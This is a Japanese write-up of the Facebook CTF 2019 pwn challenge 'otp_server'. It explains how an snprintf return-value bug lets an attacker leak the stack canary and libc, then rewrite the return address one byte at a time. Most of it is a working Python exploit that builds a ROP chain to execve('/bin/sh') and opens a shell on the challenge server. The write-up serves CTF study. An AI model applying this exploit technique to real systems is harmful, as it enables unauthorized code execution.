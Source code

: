 # [pwn 410pts] otp_server - Facebook CTF 2019
64ビットで全部有効です。
```
$ checksec -f otp_server
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      Yes	0		5	otp_server
```
一見問題なさそうですが、sprintfの処理にバグがあります。
snprintfでサイズを制限していますが、返り値として戻ってくるのは実際に書き込まれた文字数ではなく、書き込もうとした文字数になります。
したがって、たくさん書き込むとたくさん出力され、オーバーリードとなります。
また、keyとbufferが隣接しているのでstrlenで実際のサイズよりも大きく見せることができます。
これを使えばリターンアドレスをランダムなnonceで破壊できるのですが、コピーされるバッファはちゃんと変数のサイズ内なのでリターンアドレスを任意の値に変えられないように思えます。しかし、main関数を終える前にnonceの値を確認できるので、nonceの最終バイトが書き換えたい値になったら次のバイトを書き換える、という具合で1バイトずつ書き換えられます。競技中にこれ思いついたのえらい。

```python
from ptrlib import *

def set_key(key):
    sock.recvuntil(">>> ")
    sock.sendline("1")
    sock.recvline()
    sock.send(key)

def encrypt(msg):
    sock.recvuntil(">>> ")
    sock.sendline("2")
    sock.recvline()
    sock.send(msg)
    sock.recvline()
    return sock.recvline().rstrip()

libc = ELF("./libc-2.27.so")
#sock = Process("./otp_server")
sock = Socket("challenges3.fbctf.com", 1338)
delta = 0xe7

# Leak libc & canary
set_key("\xff" * 0x108)
result = encrypt("\xff" * 0x100)
canary = result[0x108:0x110]
addr_libc_start_main = u64(result[0x118:0x120])
libc_base = addr_libc_start_main - libc.symbol("__libc_start_main") - delta
dump("libc base = " + hex(libc_base))
dump(b"canary = " + canary)

def overwrite(pos, target):
    x = 0
    setFlag = True
    while True:
        if setFlag:
            setFlag = False
            set_key("A" * (0x18 + pos - x) + "\x00")
        nonce = u64(encrypt("A" * 0x100)[:4]) ^ 0x41414141
        if (target >> (8 * (7 - x))) & 0xff == nonce >> 24:
            print(hex(target), hex(nonce >> 8))
            setFlag = True
            x += 1
            if x == 8:
                break

rop_pop_rdi = libc_base + 0x0002155f
rop_pop_rsi = libc_base + 0x00023e6a
rop_pop_rax = libc_base + 0x000439c7
rop_ret = libc_base + 0x000008aa
rop_syscall = libc_base + 0x000013c0
overwrite(0x30, rop_syscall)
overwrite(0x28, 59)
overwrite(0x20, rop_pop_rax)
overwrite(0x18, 0)
overwrite(0x10, rop_pop_rsi)
overwrite(0x08, libc_base + next(libc.find("/bin/sh")))
overwrite(0x00, rop_pop_rdi)

#_ = input()
sock.sendline("3")
sock.interactive()
```

# 感想
リモートで解くには時間がかかりますが、アイデアは面白かったです。
